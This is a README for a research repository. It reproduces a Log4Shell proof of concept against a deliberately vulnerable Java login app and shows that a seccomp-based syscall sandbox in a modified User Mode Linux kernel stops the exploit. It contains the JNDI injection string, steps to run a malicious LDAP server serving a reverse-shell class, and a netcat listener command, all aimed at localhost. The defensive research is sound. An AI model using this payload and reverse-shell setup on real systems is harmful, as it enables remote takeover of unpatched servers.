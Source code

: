 ## Log4Shell
A small proof-of-concept for the Log4Shell vulnerability based on https://github.com/kozmer/log4j-shell-poc.
The vulnerable application is a simple login component which logs the username when login fails, using a vulnerable version of the Log4j logging framework.
The application is used to show how an attacker's capabilities can be restricted with a simple sandboxed execution environment, defined by the system calls that the application is allowed to make.

The code has only been tested on Ubuntu 22.04, using User Mode Linux.

## Requirements
The Maven project management tool has been used to compile the vulnerable application. However, testing the proof-of-concept should be possible without compiling the vulnerable application since a compiled version of the vulnerable application is already included in this repository.

Python 3 is used to start a malicious LDAP server, serving a class `Exploit.class` which tries to establish a reverse shell.

Netcat is used to catch the reverse shell connection.


## Testing the exploit
1. Optionally, compile the vulnerable application by running `mvn package`.
2. In a terminal window, start the vulnerable web application with the command `./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp`.
3. In a second terminal window, start a Netcat listener with the command: `nc -lvnp 9001`.
4. In a third terminal window, start the malicious LDAP server with the command: `python3 poc.py --userip localhost --webport 8000 --lport 9001`.
5. In the vulnerable application, type in the following username `${jndi:ldap://localhost:1389/a}`. Then type in any password.
6. Go to the second terminal window. A reverse shell should now have been established. This can e.g. be tested by trying to run `ls` or `whoami`.

## Testing the exploit with a restricted Java interpreter
The ELF file of the Java interpreter `./jdk1.8.0_20/bin/java` contains information about the system calls that the interpreter requires to run the vulnerable application. In particular, the interpreter does not need to execute the `execve` system call to work properly. The `execve` system call is used to establish the reverse shell by executing `execve("/bin/sh", ...)`.

Thus, it is not possible to establish a reverse shell with the same easy approach as described above if the vulnerable application is run in a sandbox, where it is only allowed to execute the system calls that it requires to work properly.

To test this, perform the same steps as described above, but do it in the modified Linux kernel which can be found at: https://github.com/TobiasNissen/linux_kernel_fork. See more details on this below. After performing step 5, the vulnerable application should now terminate, and no reverse shell should be established.


## Running the modified Linux kernel.
Firstly, build a root file system by running:
```
sudo sh ./fs/make_root_fs.sh
```

Then, build the Linux kernel by running the following command in the root directory of the modified Linux kernel:
```
make -j4 ARCH=um
```

The modified kernel can now be run with the following command from the root directory of the modified Linux kernel:
```
sudo ./linux ubda=<path_to_root_fs> rw mem=128M eth0=tuntap,,,192.168.0.254
```
Here, `<path_to_root_fs>` is the path to the root file system built in the first step. E.g.:
```
sudo ./linux ubda=../log4shell-poc/root_fs rw mem=128M eth0=tuntap,,,192.168.0.254
```

Observe that it is possible to connect two other terminals to the UML instance with:
```
sudo screen /dev/pts/X
sudo screen /dev/pts/Y
```
, where `X` and `Y` are the device numbers that can be found in the startup output when running the kernel.

In all terminals, the username `root` can be used with no password to login.

Now, bring up the network interface, required for localhost communication, by running:
```
ifconfig eth0 192.168.0.254 up
```

Next, create a mounting point with:
```
mkdir /mnt/tmp
```
, and then mount the log4shell-poc directory from the host machine with:
```
mount none /mnt/tmp -t hostfs -o /home/ttn/Desktop/log4shell-poc
```

The log4shell-poc directory can now be accessed by executing:
```
cd /mnt/tmp
```

From this point, the same steps as described above can be used to play with the Log4Shell proof of concept.
Note that the Java interpreter `./jdk1.8.0_20/bin/java_orig` can be used to demonstrate the Log4Shell vulnerability in the modified Linux kernel, since this is a version of the Java interpreter that has not been patched with an access right table.

The UML instance can be stopped with the command `halt`.


## Creating the restricted Java interpreter
The restricted Java interpreter was created by first analyzing the set of system calls required for the vulnerable application to
work properly. This was done using `strace`. In particular, the following command was executed from a `root` shell in the modified Linux kernel:
```
strace -f -o trace_uml.txt ./jdk1.8.0_20/bin/java -cp target/log4shell-1.0-SNAPSHOT.jar com.poc.VulnerableApp VulnerableApp
```
The vulnerable application was then used, trying to login with both invalid and valid logins before terminating the application.

Afterwards, a list of system call numbers were extracted with the command:
```
cat trace_uml.txt | tail -n +2 | cut -d" " -f3 | grep -o -e "^[^(]*" | sort | uniq > syscall_names_uml.txt
```
Note that the first system call in `trace.txt` is `execve("./jdk1.8.0_20/bin/java", ...)` which is used to spawn the Java interpreter. 
Thus, this system call is ignored with the `tail -n +2` command. Furthermore, a few invalid lines had to be removed manually.

Lastly, the extracted system calls were added to the ELF file of the Java interpreter by running `linux_set_up_access_rights.py ./jdk1.8.0_20/bin/java syscall_names_uml.txt`. Note that this requires `sh ./python_dependencies/install_dependencies` to be run first.

Note that the modified Linux kernel reads the required system calls added by `linux_set_up_access_rights.py` to the file `./jdk1.8.0_20/bin/java` and installs a seccomp-BPF filter that ensures that only these system calls are allowed for the vulnerable application. 

